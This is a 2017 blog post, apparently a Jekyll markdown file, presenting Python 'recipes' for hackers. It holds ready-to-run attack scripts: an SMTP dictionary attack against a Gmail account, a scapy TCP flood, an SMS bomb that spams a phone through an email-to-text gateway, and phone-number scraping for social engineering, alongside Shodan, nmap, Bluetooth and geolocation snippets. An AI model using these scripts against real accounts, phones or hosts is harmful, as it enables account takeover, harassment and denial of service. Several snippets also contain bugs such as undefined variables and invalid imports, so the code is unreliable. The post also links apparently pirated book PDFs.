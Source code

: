 ```yaml
---
title: Python for Security
date: 2017-04-08 00:00:00 Z
layout: post
comments: true
author: Alan
---
```


Python is one of the greatest programming languages for hackers. Not because of its easiness actually, but it is __beginner-friendly__ and __fast to deploy__. One of the best thing about the language is the resemblance to that of a natural language, sharing syntactical and semantical rules that very much look like English.

    for i in range(0, 50):
      print "Hello"

Without a doubt, Python has that pseudocode feel that gives it the edge of being an _ideal_ language for the greenhorn. But still, with the vast variety of libraries, modules and frameworks available for the language, the use of Python is also incredibly __expansive__. In this article, we are going to implement Python for the intent of penetration testing.

Take __Black Hat Python__ for example. Great book. Ever wanted to build a quick TCP server? Simple. Implement `socket`. Make an object, connect, send some header data, and await a response. Working with networking and TCP/IP has never been easier.


    host = "www.test.com"
    port = 80
    obj = socket(socket.AF_INET, socket.SOCK_STREAM)
    obj.send("GET / HTTP/1.1\r\nHost:" + host + "\r\n\r\n")
    response = obj.recv(4096)
    print response

The point is, with an ever growing collection of Python libraries and easy to deploy code, Python is ideal for the modern hacker. If you ever look at some of the source code for popular pentesting tools, you will see a large
amount of Python.

Well, today I'm more of here to talk to about some applicable code you can use in pentesting situations, where you may not always have access to a Kali machine. And maybe with some ingenuity, you can even execute
this code on a mobile device. So here are my favorite Pythonic recipes.

## 1. Extract Phone Numbers
Let's start off with something simple. Say we want to siphon some Phone Numbers from a document or some sort of webpage. We want to social engineer these numbers, but the page is just spewing a ton of bullshit we don't care much for.

    import re, urllib
    url = "www.test.com/contact.html"
    htmlFile = urllib.urlopen(url)
  	html = htmlFile.read()
    phoneNums = re.findall(r'^(\+\d{1,2}\s)?\(?\d{3}\)?[\s.-]\d{3}[\s.-]\d{4}$', html)
    print phoneNums

The core component that you need to understand is 5th line, where you would see a random string. What is it?
That is known as a __regular expression__. This is basically a special string that signifies a specific
pattern to look for. That specific regex specified looks for standard phone-numbers in these formats:

    ###-###-####
    (###) ###-####
    ### ### ####
    ###.###.####

[(source for regex)](http://stackoverflow.com/questions/16699007/regular-expression-to-match-standard-10-digit-phone-number)

## 2. Hacking SMTP (email)

With the vast collection of modules for Python, there obviously is one for __SMTP__, also known as ___Simple
Mail Transfer Protocol___. This is the protocol utilized by email services. Let's make a simple script that launches a dictionary attack on a sample Gmail account (can be utilized on other SMTP services, such as Yahoo).

    import smtplib
    username = "hackme@gmail.com"
    # Specify a wordlist
    wordlist = open("wordlist.txt", 'r')
    for i in wordlist.readlines():
          password = i.strip("\n")
          try:
              s = smtplib.SMTP("smtp.gmail.com", 587)
              s.ehlo() # identify self to server to confirm working
              s.starttls() # start secure connect
              s.ehlo
              s.login(username, str(password))
              print "Found! Password: %s" % password
              s.close
            except:
              print "OOPs something went wrong"

Let's look at a few lines. the `for` keyword takes each newline within the `wordlist.txt` and appends it as a possible password. When we look at line 8, a SMTP object is defined, connecting to the Gmail SMTP server on port 587. The SMTP object would attempt to login using with the username, and each password from within the wordlist.

## 3. TCP DoS attack
This quick script provides a way for the user to employ a quick stress.

    from scapy import *
    target = "127.0.0.1" # replace with target IP address
    port = 80
    sport = 8080 # replace with source port, or import random to randomize.
    while True:
      send(IP(dst=target) / TCP(sport=x,dport=port), inter=.005)
      print "Sent. Kill with Ctrl + C"

We look at line 6. This implements the module `scapy`. Three variables are utilized, a target address, port,
and source port. The send() method identifies that, as well as using the TCP protocol.

## 4. Searching Vulnerability with Shodan
This script implements the `shodan` API in order to find vulnerable devices/services.

    import shodan
    SHODAN_API_KEY = # key here
    # Create object
    api = shodan.Shodan(SHODAN_API_KEY)
    try:
        results = api.search("") # string to search
        print "Result: %s" % results[total]
        for result in results['matches']:
            print "IP: %s" % result['ip_str']
            print result['data']
    except shodan.APIError, e:
        print "Something went wrong"

## 5. Scanning with Nmap
Very simple host scan using the `python-nmap` module.

    import python-nmap
    ip = '127.0.0.1' # replace with target host
    scan = nmap.PortScanner()
    scan.scan(ip, '0-65535') # scan host, all ports

## 6. Sniffing Bluetooth Devices

    from bluetooth import *
    from time import *
    found = []
    def findDevices():
        foundDevs = discover_devices(lookup_names = True)
        for (addr. name) in foundDevs:
            if addr not in alreadyFound:
                print "Found Device " + str(name)
                print "MAC Address: " + str(addr)
                found.append(addr)
    while True:
        findDevices()
        sleep(5)

## 7. SMS Bomb
This script uses the `smtplib`, just as the SMTP cracker does. However,
this time it is implemented on email-2-text carrier address.

    import smtplib
    # It is important to use a disposable Gmail account
    gmail = "test@gmail"
    password = "somepassword"
    target_num = "123-456-7890@vtext.com"
    # Example Verizon SMS address. Replace with carrier address of num.
    o = smtplib.SMTP("smtp.gmail.com:587")
    o.starttls()
    o.login(gmail, password)
    message = "Something hi"
    spam_msg = "From: {} \r\nTo: {} \r\n\r\n {}".format(gmail, phone_num, message)
    counter = 20 # execute 20 times
    for i in range(counter):
          o.sendmail(gmail, phone_num, spam_msg)

## 8. Geolocation
Take an IP address, and you get back some nice juicy information about geolocation.

    import pygeoip
    # GeoIP object
    gi = pygeoip.GeoIP('GeoIP.dat') # specify database file for GeoIP.
    gi = pygeoip.GeoIP('GeoIPRegion.dat') # region
    gi = pygeoip.GeoIP('GeoIPCity.dat') # city
    gi = pygeoip.GeoIP('GeoIPISP.dat') # ISP
    ip = "127.0.0.1" # replace with IP address!
    # Country
    gi.country_name_by_addr(ip) #=> "United States" for e.g
    gi.region_by_addr(ip) #=> {'region_name': 'NY', 'country_code': 'US'}
    gi.record_by_addr(ip) #=> Returns a huge dict of stuff Im not even gonna give an example
    gi.org_by_addr(ip) #=> "Super Techcom ISP Inc. Corp."
    # More info: https://github.com/appliedsec/pygeoip/wiki
    # Even more info: http://pygeoip.readthedocs.io/en/v0.3.2/getting-started.html

  That's just some of my favorite quick delicious recipes for evil malicious Pythonic hax3z.

  As a language that includes elements of a __procedural scripting__ language and __object-oriented__ language, Python provides at-ease use for both hackers and engineers. I rely greatly on Python when it comes to writing scripts and projects, and hopefully, I'll continue to utilize it. However, to add some variation, I'll start with some projects in C, Rust and Ruby as well. Exploitation is looking nice, so that's something I'm aiming at.

  Thanks for reading, and more is coming! Here is a gr8 list of books by hackers for hackers with relevance to Python:

  * [__Black Hat Python__](http://file.allitebooks.com/20150521/Black%20Hat%20Python.pdf)
  * [__Gray Hat Python__](http://www.chinastor.org/upload/2015-08/15081917086229.pdf)
  * [__Violent Python__](https://repo.zenk-security.com/Programmation/Violent%20Python%20a%20Cookbook%20for%20Hackers-Forensic%20Analysts-Penetration%20testers%20and%20Security%20Engineers.pdf)
 * and of course, if you are a beginner YEARNING to learn, here's a great classic:
 [__Automate the Boring Stuff with Python__](https://automatetheboringstuff.com/)
